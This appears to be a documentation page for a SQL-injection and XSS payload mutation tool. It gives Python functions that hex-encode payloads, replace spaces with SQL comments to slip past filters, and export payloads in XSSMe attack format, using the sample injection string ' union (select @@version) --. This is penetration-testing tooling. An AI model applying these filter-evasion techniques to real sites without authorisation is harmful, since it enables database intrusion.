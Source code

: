 
  * Example of Hexadecimal Encoder:

Input payload file content: ' union (select @@version) --

Output payload file content: 2720756e696f6e202873656c65637420404076657273696f6e29202d2d

**Note**: The tmntv(version) tool will take as an input a file.

This function does white space filling:

---

```

def replacer(_payloadList): # Filling the gaps 

 currentTime = getTime()+'_'

 _mutatePayloadFile = currentTime+"spaceFilledPayloads.lst"
 _mutatePayloadFileObj = open(_mutatePayloadFile,"w")

 _space_FillerElementsFile = fillerFile
 _space_FillerElementObj = open(_space_FillerElementsFile,"r")
    
 _space_FillerList = _space_FillerElementObj.readlines()
 
 for _space_Filler in _space_FillerList: 
  for _payloadline in _payloadList:
   _mutatePayloadFileObj.write(( _payloadline + '\n' ).replace(" ",_space_Filler.rstrip()))

 _mutatePayloadFileObj.close()

```

---

  * Example of replacer:

Input payload file content: ' union (select @@version) --

Output payload file content: '/SQL COMMENT/union/SQL COMMENT/(select/SQL COMMENT/@@version)//--

**Note**: The tmntv1.4 tool will take as an input a file. The replacer will load the CharContainer/space\_Filler\_Container.lst keywords and replace all spaces from the payload. The filler file contains SQL comments and mutated SQL comments.

This function formats the payload file so you can import it to XXSMe:

---

```

def XSSMeFormater(_payloadList): 

 currentTime = getTime()+'_'

 _mutatePayloadFile =  currentTime = getTime()+'_'+"XSSMeFormated.xml"

 _mutatePayloadFileObj = open(_mutatePayloadFile,"w")
 
 _mutatePayloadFileObj.write("<exportedattacks><attacks><attack><attackString><![CDATA["+"\n")
 
 for _payloadline in _payloadList:
    
    _mutatePayloadFileObj.write((str(_payloadline).rstrip())+"\n"+"]]></attackString><signature>Script</signature></attack><attack><attackString><![CDATA["+"\n")
  
 _mutatePayloadFileObj.write("]]></attackString><signature>Script</signature></attack></attacks></exportedattacks>"+"\n")
```